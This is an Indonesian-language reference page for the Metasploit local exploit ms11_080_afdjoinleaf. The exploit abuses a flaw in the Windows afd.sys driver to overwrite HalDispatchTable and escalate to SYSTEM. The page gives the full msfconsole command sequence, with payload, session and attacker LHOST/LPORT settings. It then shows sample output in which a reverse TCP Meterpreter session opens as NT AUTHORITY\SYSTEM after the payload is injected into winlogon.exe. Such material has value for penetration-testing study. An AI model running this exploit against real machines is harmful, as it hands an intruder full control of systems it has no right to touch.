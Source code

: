 # ms11_080_afdjoinleaf

Modul ini mengeksploitasi kelemahan pada fungsi `AfdJoinLeaf` di dalam driver `afd.sys` untuk menimpa data di ruang kernel. Sebuah alamat di dalam `HalDispatchTable` akan ditimpa, dan ketika dipicu melalui pemanggilan fungsi `NtQueryIntervalProfile`, maka akan menjalankan `shellcode`.

Modul ini akan menaikkan hak akses dirinya sendiri menjadi `SYSTEM`, lalu menyuntikkan payload ke dalam proses `SYSTEM` lain, sebelum mengembalikan token miliknya sendiri untuk menghindari ketidakstabilan sistem.

## Penulis
- [Matteo Memelli](https://www.crunchbase.com/person/matteo-memelli)
- [Spencer McIntyre](https://github.com/zerosteiner)

## Platform
- `Windows`

## Arsitektur
- `x86`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms11_080_afdjoinleaf
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] Kernel Base Address: 0x804d7000
[*] HalDispatchTable Address: 0x80553038
[*] HaliQuerySystemInformation Address: 0x80715bba
[*] HalpSetSystemInformation Address: 0x80718436
[*] Triggering AFDJoinLeaf pointer overwrite...
[*] Injecting the payload into SYSTEM process: winlogon.exe
[*] Creating the thread to execute in 0xaf0000 (pid=620)
[*] Sending stage (177734 bytes) to 192.168.1.54
[*] Restoring the original token...
[*] Meterpreter session 26 opened (192.168.1.11:4444 -> 192.168.1.54:1059) at 2025-05-17 08:17:32 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/ms11_080_afdjoinleaf/)

